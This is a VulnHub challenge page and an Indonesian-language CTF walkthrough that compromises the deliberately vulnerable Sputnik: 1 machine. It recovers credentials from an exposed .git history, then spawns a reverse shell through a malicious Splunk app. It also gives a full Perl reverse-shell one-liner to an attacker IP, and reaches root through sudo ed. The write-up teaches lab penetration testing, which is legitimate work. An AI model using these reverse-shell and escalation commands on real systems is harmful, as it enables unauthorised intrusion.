# Challenge Description

## 📦 About Release
- **Name:** Sputnik: 1  
- **Date Release:** 4 Apr 2019  
- **Author:** Ameer Pornillos  
- **Series:** Sputnik  

---

## 📥 Download
> VulnHub is a free community resource. Please read the [FAQs](https://www.vulnhub.com/faqs/) about the dangers of running unknown VMs and suggestions for protecting yourself and your network before downloading.

- **File:** `Sputnik.ova` (Size: 1.7 GB)  
- **Download:** [Google Drive](https://drive.google.com/open?id=1JyerOVn4skRFFg63oeC3EpCYOB3sCcPY)  
- **Mirror:** [VulnHub](https://download.vulnhub.com/sputnik/Sputnik.ova)  

---

## 📝 Description
Sputnik is an **easy-level boot2root** machine designed for security enthusiasts to learn and practice compromising machines and penetration testing.  

This vulnerable machine was created as a boot2root CTF challenge for an InfoSec community, made by **hackstreetboys** (a CTF team from the Philippines).

---

## 📂 File Information
| Field     | Value |
|-----------|-------|
| Filename  | Sputnik.ova |
| File Size | 1.7 GB |
| MD5       | `3A904C30947A3BE9F4DB3C6EB4E2D7E0` |
| SHA1      | `54AD6E9CEE41703CFA941019AB5993031217A7D4` |

---

## 💻 Virtual Machine
- **Format:** Virtual Machine (VirtualBox - OVA)  
- **Operating System:** Linux  

---

## 🌐 Networking
- **DHCP Service:** Enabled  
- **IP Address:** Automatically assigned  

---

# Walktrough Sputnik: 1

### First Steps - Finding IP Address

Pertama, disini kita akan scanning IP dulu menggunakan tools `arp-scan` untuk mengetahui IP dari VM yang kita jalankan.

```bash
sudo arp-scan -l
``` 

kemudian kita akan mendapatkan IP dari VM tersebut, disini saya mendapatkan IP

```bash
Interface: eth0, type: EN10MB, MAC: 08:00:27:d4:54:92, IPv4: 192.168.56.105
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:09       (Unknown: locally administered)
192.168.56.100  08:00:27:fa:65:ae       PCS Systemtechnik GmbH
192.168.56.110  08:00:27:d8:0b:51       PCS Systemtechnik GmbH

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.264 seconds (113.07 hosts/sec). 3 responded                                                                                             
```

tentu saja yang IP target disini adalah `192.168.56.110`.

---

### Second Steps - Scanning Open Port

Setelah mendapatkan IP target, selanjutnya kita akan scanning port menggunakan `nmap` untuk mengetahui port apa saja yang terbuka pada VM tersebut.

```bash
nmap -sS -sC -sV 192.168.56.110
```

maka kita akan mendapatkan hasil seperti berikut:

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-19 00:12 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.110
Host is up (0.033s latency).
Not shown: 998 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
8089/tcp  open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2019-03-29T11:03:21
|_Not valid after:  2022-03-28T11:03:21
|_http-title: splunkd
55555/tcp open  http     Apache httpd 2.4.29 ((Ubuntu))
| http-git: 
|   192.168.56.110:55555/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-title: Flappy Bird Game
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 08:00:27:D8:0B:51 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.90 seconds
```

langsung saja kita coba buka di browser pada port `55555` dan `8089`.

---

### Third Steps - Accessing Web Service

Pertama kita coba akses pada port `55555` terlebih dahulu, maka kita akan mendapatkan halaman seperti berikut:


disini hanya ada game flappy bird saja, tidak ada yang menarik. Selanjutnya kita coba akses pada port `8089`, maka kita akan mendapatkan halaman seperti berikut:



ternyata tidak bisa diakses. Sekarang kita coba untuk akses port `55555` dengan menambahkan `/ .git` pada URL, sehingga menjadi `http://192.168.56.110:55555/.git`, maka kita akan mendapatkan halaman seperti berikut:



kemudian aku mencoba untuk masuk ke `http://192.168.56.110:55555/.git/logs/HEAD` dan mendapatkan ini



`https://github.com/ameerpornillos/flappy.git`. Langsung saja kita clone repository tersebut.

```bash
git clone https://github.com/ameerpornillos/flappy.git
```

maka kita akan mendapatkan folder bernama `flappy` dari web tersebut. kemudian aku mencoba untuk mencari file yang mencurigakan menggunakan perintah `git log` dan aku tambahi `--name-only` untuk memperlihatkan file apa yang sudah dicommit atau dihapus.

```bash
git log --name-only
```

maka kita akan mendapatkan hasil yang bernama file seperti berikut:

```bash
commit 884adf394909a8f5989a163bb666003ea870f582 (HEAD -> master, origin/master, origin/HEAD)
Author: Ameer Pornillos <44928938+ameerpornillos@users.noreply.github.com>
Date:   Fri Mar 29 23:22:06 2019 +0800

    Update new file

index.html

commit d4a672434b93fd156dd61e2b756048501fe0bbc6
Author: Ameer Pornillos <44928938+ameerpornillos@users.noreply.github.com>
Date:   Fri Mar 29 23:21:09 2019 +0800

    Delete new file

release

commit 6aa723152729e58f2492acf0386b37571aebfaa2
Author: Ameer Pornillos <44928938+ameerpornillos@users.noreply.github.com>
Date:   Fri Mar 29 23:20:55 2019 +0800

    Create new file

release

commit 67f4815c799a81612c8c33364b3b8d3685d9b6d9
Author: Ameer Pornillos <44928938+ameerpornillos@users.noreply.github.com>
Date:   Fri Mar 29 23:19:43 2019 +0800

    Update new file

index.html

commit 72bd06137d23a3846ba0d64bcf72c445c100b898
Author: Ameer Pornillos <44928938+ameerpornillos@users.noreply.github.com>
Date:   Fri Mar 29 23:19:14 2019 +0800

    Update new file

README.md

commit fdd806897314ed67442fd12c4fc0ccc678dc9857
Author: Ameer Pornillos <44928938+ameerpornillos@users.noreply.github.com>
Date:   Fri Mar 29 23:18:45 2019 +0800

    Delete new file

secret
...
...
```

dan masih banyak lagi di bawah, namun fokus kita disini adalah file `secret` yang sudah dihapus. Dibawah ini adalah total file `secret` yang sudah dihapus.

```bash
commit fdd806897314ed67442fd12c4fc0ccc678dc9857
Author: Ameer Pornillos <44928938+ameerpornillos@users.noreply.github.com>
Date:   Fri Mar 29 23:18:45 2019 +0800

    Delete new file

secret

commit 5c5d8adcf57267bc0a936a7db21ddb90fcbcd9ca
Author: Ameer Pornillos <44928938+ameerpornillos@users.noreply.github.com>
Date:   Fri Mar 29 23:18:11 2019 +0800

    Commit new file

secret

commit 0dafaf31ba3bc76844127b417191be59d320d705
Author: Ameer Pornillos <44928938+ameerpornillos@users.noreply.github.com>
Date:   Fri Mar 29 20:28:58 2019 +0800

    Delete new file

secret

commit b38d4f0e65b0bc7044792da436da5d763dc1acd1
Author: Ameer Pornillos <44928938+ameerpornillos@users.noreply.github.com>
Date:   Fri Mar 29 20:28:15 2019 +0800

    Update new file

secret

commit 07fda135aae22fa7869b3de9e450ff7cacfbc717
Author: Ameer Pornillos <44928938+ameerpornillos@users.noreply.github.com>
Date:   Fri Mar 29 20:27:01 2019 +0800

    Commit new file

secret
```

sekarang waktunya kita cek file `secret` yang sudah dihapus tersebut menggunakan perintah `git ls-tree`.

```bash
git ls-tree 07fda135aae22fa7869b3de9e450ff7cacfbc717
```

maka kita akan mendapatkan hasil seperti berikut:

```bash
100644 blob bdb0cabc87cf50106df6e15097dff816c8c3eb34    .gitattributes
100644 blob cd2946ad76b4402e5b3cab9243a9281aad228670    .gitignore
100644 blob 8f260dadbe40cdc656eb43c0c24401bdd4255bd0    README.md
100644 blob b7c6a79fd534ed19ab1708ac7a754ca1db28b951    index.html
100644 blob f4385198ce1cab56e0b2a1c55e8863040045b085    secret
100644 blob df45033222b87c64965dce38263e6d5948fb5ec1    sheet.png
100644 blob ad295422122860df7d9a4ef0c74de1e6deb67050    sprite.js
```

sekarang kita coba cek file `secret` tersebut menggunakan perintah `git show`.

```bash
git show f4385198ce1cab56e0b2a1c55e8863040045b085
```

hasilnya adalah sebagai berikut:

```bash
sputnik:ameer_says_thank_you_and_good_job
```

disini kita mendapatkan format `username:password` yaitu `sputnik:ameer_says_thank_you_and_good_job`. Tapi kita tau bahwa tidak ada login form di semua halaman web tersebut. Sekarang kita coba untuk melakukan port scanning secara penuh pada IP target menggunakan perintah `nmap -sS -sC -sV -p- <IP-ADDRESS>`.

```bash
nmap -sC -sS -sV -p- 192.168.56.110
```

maka kita akan mendapatkan hasil seperti berikut:

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-18 06:27 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.110
Host is up (0.00034s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
8089/tcp  open  ssl/http Splunkd httpd
|_http-title: splunkd
|_http-server-header: Splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2019-03-29T11:03:21
|_Not valid after:  2022-03-28T11:03:21
| http-robots.txt: 1 disallowed entry 
|_/
55555/tcp open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Flappy Bird Game
| http-git: 
|   192.168.56.110:55555/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
61337/tcp open  http     Splunkd httpd
|_http-server-header: Splunkd
| http-robots.txt: 1 disallowed entry 
|_/
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://192.168.56.110:61337/en-US/account/login?return_to=%2Fen-US%2F
MAC Address: 08:00:27:D8:0B:51 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.51 seconds
```

ternyata ada port lain yang terbuka yaitu `61337`, sekarang kita coba akses di browser pada port tersebut, sehingga menjadi `http://192.168.56.110:61337`, maka kita akan mendapatkan halaman seperti login form seperti berikut:



sekarang kita coba login menggunakan username dan password yang sudah kita dapatkan tadi yaitu `sputnik:ameer_says_thank_you_and_good_job`, maka kita akan mendapatkan halaman seperti berikut:



disini aku explore halaman tersebut, dan aku menemukan ada menu `Manage App` dengan langkah langkah seperti berikut:

1. Klik menu `Apps`

2. Klik `Manage Apps`


kemudian akan mendapatkan halaman seperti berikut:



disini aku mencoba mencari vulnerability pada Splunk tersebut, dan ternyata ada vulnerability pada Splunk yaitu reverse shell yang aku temukan ketika mencari di google dengan keyword `splunk reverse shell` kemudian aku menemukan github repo yang berisi script untuk mendapatkan reverse shell pada splunk yaitu di `https://github.com/TBGSecurity/splunk_shells`.

Langsung saja kita download payload dari link yang sudah disediakan di github tersebut `https://github.com/TBGSecurity/splunk_shells/archive/1.2.tar.gz`

kemudian install file tersebut di menu `Install app from file` pada halaman `Manage Apps` tersebut.



setelah itu klik `Choose File` maka kita akan mendapatkan halaman seperti berikut:



kemudian klik `Upload` maka kita akan muncul filenya di daftar Apps seperti berikut:



sekarang waktunya kita masuk ke Search & Reporting untuk menjalankan payload tersebut.

---

### Fourth Steps - Road to Root

1. Klik menu `Search & Reporting`

2. Masukkan query berikut pada kolom search
```bash
| revshell std <ATTACKER IP> <ATTACKER PORT>
``` 
disini aku menggunaknan IP dan Port sebagai berikut

```bash
| revshell std 192.168.56.105 1922
```

kenapa bisa seperti itu? ini adalah format yang sudah diberikan di githubnya.

>Bind Shell
>'| bindshell SHELLTYPE PORTNUMBER'
>
>SHELLTYPE - Specify std or msf (std = Standard Shell|msf = Meterpreter Shell)
>
>PORTNUMBER - Specify the port you want the bind shell to listen on. If you do not specify a port number it defaults to 8888
>
>Reverse Shell
>'| revshell SHELLTYPE ATTACKERIP ATTACKERPORT'
>
>SHELLTYPE - Specify std or msf (std = Standard Shell|msf = Meterpreter Shell)
>
>ATTACKERIP - Specify the IP that you want to shell to be sent back to.
>
>ATTACKERPORT - Specify the port you want the shell to be sent back to.

kemudian kita listen pakai nc -nvlp 1922

```bash
nc -nvlp 1922
```

kemudian baru kita klik `Search` pada halaman Splunk tersebut, maka kita akan mendapatkan shell seperti berikut:

```bash
listening on [any] 1922 ...
connect to [192.168.56.105] from (UNKNOWN) [192.168.56.110] 54170
```

kemudian aku coba untuk `id` dan `whoami` untuk memastikan usernya.

```bash
id
uid=1001(splunk) gid=1001(splunk) groups=1001(splunk)                                                               
whoami
splunk
```

pertama kita coba untuk memunculkan tty dulu

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

ternyata tidak muncul apa-apa, mungkin sekarang coba pake perl

```perl
perl -e 'use Socket;$i="<ATTACKER IP>";$p=<ATTACKER PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

disini aku menggunakan IP yang sama seperti sebelumnya, namun menggunakan port `4242` saja.

```perl
perl -e 'use Socket;$i="<192.168.56.105>";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

kemudian aku listen dulu di port `4242` menggunakan nc

```bash
nc -nvlp 4242
```

kemudian baru aku input payload perl tersebut di shell. Dan masuklah si netcat ke shell dengan tty sederhana

```bash
listening on [any] 4242 ...
connect to [192.168.56.105] from (UNKNOWN) [192.168.56.110] 59958
/bin/sh: 0: can't access tty; job control turned off
$ 
```

kemudian disini aku coba untuk check apakah ada python, dan ternyata ada, langsung saja aku eksekusi python untuk mendapatkan tty yang lebih baik

```bash
$ python --version
Python 2.7.15
$ python -c 'import pty; pty.spawn("/bin/bash")'

splunk@sputnik:/$ 
```

disini kita sudah mendapatkan user, yaitu splunk. Dari `git show` sebelumnya kita sudah mendapatkan username dan password yaitu `sputnik:ameer_says_thank_you_and_good_job`. Sekarang kita coba untuk `sudo su` untuk mendapatkan root.

```bash
plunk@sputnik:/$ sudo su
sudo su
[sudo] password for splunk: ameer_says_thank_you_and_good_job

Sorry, user splunk is not allowed to execute '/bin/su' as root on sputnik.
```

ternyata disitu user tidak diperbolehkan untuk akses `su`, sekarang kita coba untuk menggunakan cara lain, yaitu `/bin/ed` atau editor. 

Ada fitur khusus yang ada di editor ini, yaitu kita bisa menjalankan perintah shell dengan mengetikkan `!` diikuti perintah yang ingin dijalankan. Misalnya kita ingin menjalankan perintah `id`, maka kita bisa mengetikkan `!id` di editor tersebut.

```bash
plunk@sputnik:/$ sudo /bin/ed 
sudo /bin/ed
[sudo] password for splunk: ameer_says_thank_you_and_good_job
!id
uid=0(root) gid=0(root) groups=0(root)
```

dan yap, kita sudah mendapatkan root. Sekarang kita coba untuk menjadi root dengan cara `!/bin/bash`, itu adalah command untuk mendapatkan bash shell dari root. Terkadang kita hanya menggunakannya untuk mendapatkan bash dari user, sekarang bisa kita manfaatkan untuk mendapatkan bash dari root.

```bash
!/bin/bash
root@sputnik:/# 
```

oke sudah dapat root, sekarang kita coba untuk cek flagnya di `/root`, biasanya file flag ada di dalam folder tersebut.

```bash
root@sputnik:/# cd /root
cd /root
root@sputnik:~# ls
flag.txt
root@sputnik:~# cat flag.txt
 _________________________________________
/ Congratulations!                        \
|                                         |
| You did it!                             |
|                                         |
| Thank you for trying out this challenge |
| and hope that you learn a thing or two. |
|                                         |
| Check the flag below.                   |
|                                         |
| flag_is{w1th_gr34t_p0w3r_c0m35_w1th_gr3 |
| 4t_r3sp0ns1b1l1ty}                      |
|                                         |
| Hope you enjoy solving this challenge.  |
| :D                                      |
|                                         |
\ - ameer (from hackstreetboys)           /
 -----------------------------------------
      \                    / \  //\
       \    |\___/|      /   \//  \\
            /0  0  \__  /    //  | \ \    
           /     /  \/_/    //   |  \  \  
           @_^_@'/   \/_   //    |   \   \ 
           //_^_/     \/_ //     |    \    \
        ( //) |        \///      |     \     \
      ( / /) _|_ /   )  //       |      \     _\
    ( // /) '/,_ _ _/  ( ; -.    |    _ _\.-~        .-~~~^-.
  (( / / )) ,-{        _      `-.|.-~-.           .~         `.
 (( // / ))  '/\      /                 ~-. _ .-~      .-~^-.  \
 (( /// ))      `.   {            }                   /      \  \
  (( / ))     .----~-.\        \-'                 .~         \  `. \^-.
             ///.----..>        \             _ -~             `.  ^-`  ^-_
               ///-._ _ _ _ _ _ _}^ - - - - ~                     ~-- ,.-~
                                                                  /.-~
```

ya, akhirnya kita dapat flagnya, yaitu `flag_is{w1th_gr34t_p0w3r_c0m35_w1th_gr34t_r3sp0ns1b1l1ty}`.

Akhirnya kita sudah mendapatkan user dan root flag pada VM Sputnik: 1 ini. Terima kasih sudah membaca walkthrough ini, semoga bermanfaat.